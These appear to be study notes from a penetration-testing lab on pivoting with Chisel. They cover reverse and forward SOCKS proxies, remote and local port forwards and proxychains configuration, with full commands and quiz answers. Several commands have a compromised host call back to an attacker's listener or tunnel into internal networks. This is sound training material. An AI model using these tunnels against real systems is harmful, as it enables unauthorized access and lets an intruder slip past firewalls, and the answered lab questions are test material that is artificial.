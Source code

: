 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact *it doesn't require SSH access on the compromised target* is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

![[Chisel-20241209145423168.webp]]

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`


---

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`  
e.g:

![[Chisel-20241209145533999.webp]]

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


---

## Reverse SOCKS Proxy

Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
`./chisel server -p LISTEN_PORT --reverse &   `

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![[Chisel-20241209145727324.webp]]

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.

## Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
`./chisel server -p LISTEN_PORT --socks5`  

On our own attacking box we would then use:  
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

## Proxychains Reminder

When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  
`[ProxyList]   # add proxy here ...   # meanwhile   # defaults set to "tor"   socks5  127.0.0.1 1080`

> [!Note]
>The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example).

## Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`  

Connecting back to our attacking machine, functioning as a chisel server started with:  
`./chisel server -p 1337 --reverse &`  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

## Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

## Closing chisel connections

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.


> [!Note]
>When using Chisel on Windows, it's important to remember to upload it with a file extension of `.exe` (e.g. `chisel.exe`)!


> [!Question]
>1. What command would you use to start a chisel server for a reverse connection on your attacking machine? Use port 4242 for the listener and **do not** background the process.
>`./chisel server -p 4242 --reverse`
>2. What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
>`./chisel client 172.16.0.200:4242 R:socks &`
>3. How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
>`./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &`
>5. If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
>`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`

**Next step:** [[sshuttle]]

 

